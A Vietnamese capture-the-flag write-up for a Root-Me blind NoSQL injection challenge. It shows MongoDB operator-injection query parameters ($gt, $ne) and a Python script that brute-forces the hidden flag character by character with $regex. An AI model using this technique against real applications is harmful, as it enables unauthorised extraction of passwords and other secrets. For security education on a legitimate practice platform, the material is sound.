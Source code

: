 - Nếu truy vấn của ta là `index.php?chall_name=nosqlblind&flag=abc`, thì bên phía server sẽ xử lí như sau:

```
$database->find(array(
    "chall_name" => "nosqlblind",
    "flag" => "abc"
));
```

- Nhưng nếu ta truyền vào 1 mảng hoặc 1 object: `index.php?chall_name[$gt]=1&flag[$gt]=1` thì phía server sẽ xử lý thành:

```
$database->find(array(
    "chall_name" => array("$gt" => 1),
    "flag" => array("$gt" => 1)
));
```

- Cụ thể, NoSQL có những toán tử đặc biệt để tìm kiếm các `document` . Ta có thể tìm hiểu thêm tại (https://www.mongodb.com/docs/manual/reference/operator/query/)

- Thử: `chall_name=nosqlblind&flag[$ne]`, ta được:

![1](img/62/Screenshot%20from%202023-02-01%2021-51-19.png)

- Ở đây ta dùng `$regex` operator để brute-force các kí tự trong password:

```python
import requests
import string

url = 'http://challenge01.root-me.org/web-serveur/ch48/index.php?'

listchar = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@"

flag=''

for i in range(21):
	for c in listchar:
		r = requests.get(url+f'chall_name=nosqlblind&flag[$regex]=^{flag+c}.*')
		if 'Yeah this is the flag for nosqlblind!' in r.text:
			flag+=c
			print("Flag: ",flag)
			break
```